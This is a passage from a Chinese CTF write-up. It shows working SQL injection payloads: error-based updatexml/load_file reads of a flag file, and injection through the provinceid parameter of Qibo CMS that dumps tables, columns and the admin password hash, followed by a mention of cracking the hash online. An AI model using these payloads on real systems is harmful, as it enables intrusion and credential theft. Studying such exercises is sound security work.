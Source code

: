 密码经过 MD5 解密得到：`Myxss623`。登录在后台发现 `f13g_ls_here.txt` 文件，继续通过注入读取该文件。将代码中 `set_secure_cookie` 的第二个参数改为：

```
"' and updatexml(1,concat(0x7e, (select load_file('/var/www/html/fl3g_ls_here.txt')),0x7e),1)#"
```

然后故技重施，由于长度限制只得到一部分 flag，再修改 payload：

```
"' and updatexml(1,concat(0x7e, mid((select load_file('/var/www/html/f13g_ls_here.txt')),30,40),0x7e),1)#"
```

即可得到第二部分。

## 再见 CMS

根据登录页面页脚可以判断出该 CMS 为齐博 CMS。[漏洞参考](https://blog.csdn.net/qq_33020901/article/details/52593063)，很巧妙地利用了转义进行 SQL 注入。

根据参考的文章，先注册一个用户，然后去会员中心修改个人信息，可以看到表单中每一项对应什么参数。然后构造 payload：

```
/member/userinfo.php?job=edit&step=2
```

POST 数据：

```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select database()) where uid=3#
```

首先 `uid` 对应自己账户的 `uid`，在个人信息处可以在 url 中看到。注入的具体原理参考 “漏洞参考” 文章，注入点是参数 `provinceid`，注意不是 `address`。

这样可以在个人信息页面的 “联系地址” 一栏得到数据库名 `blog`。接下来爆表名：

```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where uid=3#
```

我们关心的是表 `admin`。爆列名，注意单双引号会被转义所以不能使用，可以用十六进制绕过：

```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select group_concat(column_name) from information_schema.columns where table_name=0x61646d696e) where uid=3#
```

爆用户名和密码：

```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select group_concat(username,0x7e,password) from admin) where uid=3#
```

得到用户名 `admin`，密码 MD5 `2638127c92b79ee7901195382dc08068`，普通 MD5 网站解不出来，在 `https://hashkiller.co.uk/Cracker` 和 `http://www.chamd5.org/` 上破解出来是 `4b10b488e4c8`，但是用这个密码登录不了，可能方向错了吧。

无奈只能扫下目录发现 `flag.php`，然后利用 SQL 读文件：
